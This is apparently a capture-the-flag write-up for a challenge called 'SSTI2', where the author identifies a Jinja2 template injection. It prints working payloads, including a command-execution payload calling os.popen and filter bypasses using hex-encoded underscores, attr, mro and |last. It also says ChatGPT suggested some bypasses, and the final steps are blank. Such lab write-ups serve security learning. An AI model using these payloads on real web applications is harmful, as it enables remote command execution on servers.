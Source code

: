 # SSTI2
## Description: 
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website here!

### Solution
1. Using the payload `{{7*'7'}}`, we get `7777777`. Thus, Jinja2 is being used.
2. However, when we run `{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls -la').read()}}`, the website return "Stop trying to break me message", indicating filter is being used.
3. To solve this, I refer to the websites https://ctf.zeyu2001.com/2021/csaw-ctf-qualification-round-2021/ninja and https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f to learn about bypassing blacklist filter.
4. First, when I try out '().__class__', it is getting blocked as the underscore is being blacklisted.
5. Try encode the underscore with '\x5f' by using the payload **'{{()|attr('\x5f\x5fclass\x5f\x5f')}}'**. Bypass successful.
6. Next, just search **<class ‘subprocess.Popen’>** in subclasses using **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')}}'**
7. However, nothing is returned. To test that, we will first try **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')}}**
8. Nothing is returned, suggesting `__base__` maybe blocked.
9. Through ChatGPT, it is suggesting us to use **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()}}'** and it works successfully.
10. But, as we try on the payload **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()[-1]}}'**, it generates internal server error. But as we change [-1] to [1], it is blocked due to blacklisting on [].
11. Through ChatGPT, it is suggesting us to use **|last** instead of [-1]. So, the new payload is **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()|last}}'** and it returns **<class 'object'>**.
12. 
13. 

